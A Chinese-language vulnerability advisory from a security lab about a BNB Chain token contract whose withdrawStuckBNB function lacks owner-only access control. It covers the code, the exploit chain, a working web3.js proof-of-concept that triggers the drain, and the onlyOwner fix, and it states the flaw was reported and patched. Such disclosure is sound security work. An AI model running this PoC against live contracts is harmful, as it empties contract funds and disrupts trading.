 #  某合约任意提取BNB漏洞   
原创 烽火台实验室  Beacon Tower Lab   2025-03-17 18:24  
  
**1**  
  
  
**背景描述**  
  
合约是一个在满足特定条件时在区块链上执行代码的程序，各方以数字签署合同的方式准许并维护它的其运行。这些代码可以是向朋友汇款、买卖 NFT 虚拟商品等一系列复杂的内容。  
  
 存在漏洞的目标合约是一个结合Meme文化病毒式传播与去中心化金融（DeFi）的创新项目，旨在通过趣味性和实用性打破传统Meme代币的模式。  
  
该合约的代币目前市值1400K（USDT），日均交易量150K（USDT）  
  
  
**2**  
  
  
**问题描述**  
  
该合约“withdrawStuckBNB”函数没有添加权限控制，攻击者可以通过调用“withdrawStuckBNB”函数，将合约内所有BNB转至营销地址“marketingAddress”，从而导致合约交易异常。  
  
  
 **tips：**  
  
BNB是BNB链生态系统的原生代币，该系统包含BNB智能链（BSC）和BNB信标链。在BNB智能链上，BNB用于支付交易费用和参与网络的共识机制。BNB还被用作实用代币，使用户在Binance中心化加密货币交易所进行交易时获得交易费用的折扣。  
  
BNB在这个合约中的作用包括：作为交易对的配对货币，用于支付交易手续费，流动性池的组成部分，以及手续费收入的分配媒介  
  
  
**3**  
  
  
**问题代码分析**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOhm3uvW6XibATdWMxIeRdxVDuLcVRl9ZQnVPVywI82qlp85GF4T9tOibB46tV69EWhvr64tEOAmVIw/640?wx_fmt=png&from=appmsg "")  
  
```
```solidity
function withdrawStuckBNB() external {
    bool success;
    (success,) = address(marketingAddress).call{value: address(this).balance}("");
}
```
```  
  
  
在合约代码里面可以看到，`withdrawStuckBNB` 没有添加onlyOwner修饰，只有external修饰  
  
****  
**tips：**  
  
    Solidity语法中有4中默认函数修饰符  
  
    - public：最大访问权限，任何人都可以调用。  
  
    - private：只有合约内部可以调用，不可以被继承。  
  
    - internal：子合约可以继承和调用。  
  
    - external：外部可以调用，子合约可以继承和调用，当前合约不可以调用。  
  
onlyOwner是该合约自定义一个修饰器，用于修饰函数，只有合约的所有者才能调用该函数。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOhm3uvW6XibATdWMxIeRdxVKpZGdnWGOf7kpXfIgZGsbZ2VPmYjWaKQ5dLdnt2OOf4HLaV4Mz7OpQ/640?wx_fmt=png&from=appmsg "")  
  
  
这就意味着任何人都可以调用这个函数，将合约内所有BNB转至营销地址，导致资金被盗。  
  
  
**4**  
  
  
**后续利用链分析**  
  
从问题代码可知，任何人都可以调用这个函数，将合约内所有BNB转至营销地址marketingAddress  
  
查看marketingAddress的代码，marketingAddress是一个营销地址，更新marketingAddress的代码如下：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8E5sfrfkeAOhm3uvW6XibATdWMxIeRdxVLy18fvAGhwY90SjbU2MrvZQRYlAMM8mTnK9WPmaTIloLBTrywYkhjg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到，updateMarketingAddress函数存在onlyOwner修饰，只有owner可以调用这个函数，这就意味着只有owner可以更新marketingAddress的地址。所以利用链到此截止，攻击者只能调用withdrawStuckBNB将合约内的BNB转至marketingAddress，但是marketingAddress本身只能由owner更新，所以攻击者无法更新marketingAddress的地址，从而无法将BNB转至攻击者的地址，但是漏洞也能造成合约内BNB的清空，影响合约运行。  
  
  
**5**  
  
  
**构造POC**  
```
```javascript
const Web3 = require('web3');
// // 初始化 Web3 实例，这里使用测试网的地址，你可以根据实际情况修改
const web3 = new Web3('https://data-seed-prebsc-1-s1.binance.org:8545');
// const web3 = new Web3('https://bsc-dataseed4.binance.org/');

const contractABI = ["""换成完整ABI"""];
const contractAddress = "0xaaaaa"; // 替换为目标合约地址
const contract = new web3.eth.Contract(contractABI, contractAddress);
console.log("connect success");

// 如果使用 Node.js，需要添加私钥
const privateKey = '0xbbbbbbbbbbbbbb'; // 替换为你的私钥
const account = web3.eth.accounts.privateKeyToAccount(privateKey);
web3.eth.accounts.wallet.add(account);

async function withdrawBNB() {
    try{
        console.log(account.address);
        const tx = {
            from: account.address, // 必须使用真实地址
            to: contractAddress,
            gas: 300000,
            data: contract.methods.withdrawStuckBNB().encodeABI()
        };

        // 估算 gas
        const gas = await web3.eth.estimateGas(tx);
        tx.gas = gas;

        // 获取当前 gasPrice
        const gasPrice = await web3.eth.getGasPrice();
        tx.gasPrice = gasPrice;

        // 签名并发送交易（Node.js 方式）
        const signedTx = await web3.eth.accounts.signTransaction(tx, privateKey);
        const receipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);

        console.log('Transaction Hash:', receipt.transactionHash);
        console.log('Receipt:', receipt);
    } catch (error) {
        console.error("Error:", error);
    }
    console.log("2");
}

withdrawBNB();
console.log("3");
```

```  
  
  
**6**  
  
  
**修复方案**  
  
在withdrawStuckBNB函数中添加onlyOwner修饰，只允许owner可以调用这个函数  
  
   
```
```solidity
function withdrawStuckBNB() external onlyOwner {
    (bool success,) = marketingAddress.call{value: address(this).balance}("");
    require(success, "Transfer failed");
}
```
```  
  
  
   该漏洞目前  
已向相关单位和厂商报送并已推出补丁，  
使用此漏洞造成的任何攻击影响均与本文作者无关。  
  
  
  
  
  
  
